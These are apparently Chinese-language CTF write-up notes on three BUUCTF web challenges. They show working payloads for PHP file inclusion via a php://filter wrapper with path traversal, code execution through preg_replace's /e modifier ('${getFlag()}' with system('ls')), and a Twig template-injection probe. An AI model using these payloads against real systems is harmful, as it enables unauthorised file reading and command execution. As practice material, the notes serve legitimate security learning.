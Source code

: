 随便改成?category=flag.php

发现是include(),文件包含漏洞

想到可以使用伪协议

使用php://filter/read=convert.base64-encode/index/resource=index

读取源码

发现php代码,解读发现payload必须包含woofers,meowers或index

尝试把flag写入payload中

构造payload:

?category=woffers/../flag

/../在url中表示上级目录的意思



# buuctf ZJCTF 不过如此

拿到next.php源码后

```
function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```

preg_place /e模式下会把替换的内容当成php代码执行

构造payload:

/next.php?\S*=\${phpinfo()}

可以执行(我也不知道phpinfo为什么要用\${}括起来)

其中\S*表示正则表达式匹配所有非空

构造payload:

/next.php?\S*=\${getFlag()}&cmd=system('ls');   #不加;无法执行



# buuctf Cookie is so stable

hint.php页面的源码中有提示,突破口在cookie

这里的知识点是利用服务端模板注入攻击。[SSTI](https://so.csdn.net/so/search?q=SSTI&spm=1001.2101.3001.7020)里面的Twig攻击



输入{{7*‘7’}}，返回49表示是 Twig 模块
